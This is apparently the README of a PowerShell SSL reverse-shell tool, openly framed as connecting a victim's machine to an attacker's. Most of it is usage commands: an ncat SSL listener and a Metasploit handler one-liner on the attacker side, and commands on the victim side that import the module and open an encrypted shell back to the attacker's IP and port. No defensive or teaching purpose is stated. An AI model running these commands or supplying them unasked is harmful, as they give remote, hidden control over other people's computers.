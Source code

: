 # PowerShell-SSL-ReverseShell
This is a reverse shell written in PowerShell that uses SSL communications between the attacker's machine and the victim's machine. Made with inspiration from [samratashok/nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [PoweShell: Encrypt TCP Client-Server Traffic with a self-signed X509 Certificate](https://cyberwardog.blogspot.com/2016/08/poweshell-encrypt-tcp-client-server.html)


## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShellSSL -Reverse -IPAddress 192.168.254.226 -Port 4646

```

#### Demonstration
![]()